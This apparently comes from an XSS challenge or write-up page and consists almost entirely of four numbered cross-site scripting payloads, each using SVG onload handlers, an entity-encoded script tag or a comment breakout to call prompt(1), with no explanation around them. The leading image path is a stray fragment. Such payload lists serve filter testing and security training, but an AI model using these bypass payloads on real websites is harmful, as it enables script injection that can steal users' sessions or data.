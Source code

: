 0 ) "><svg/onload=prompt(1)>

1 ) <svg/onload=prompt(1)

2 ) <svg><x><script>prompt&#x28;1)</x>

3 ) --!><svg/onload=prompt(1)

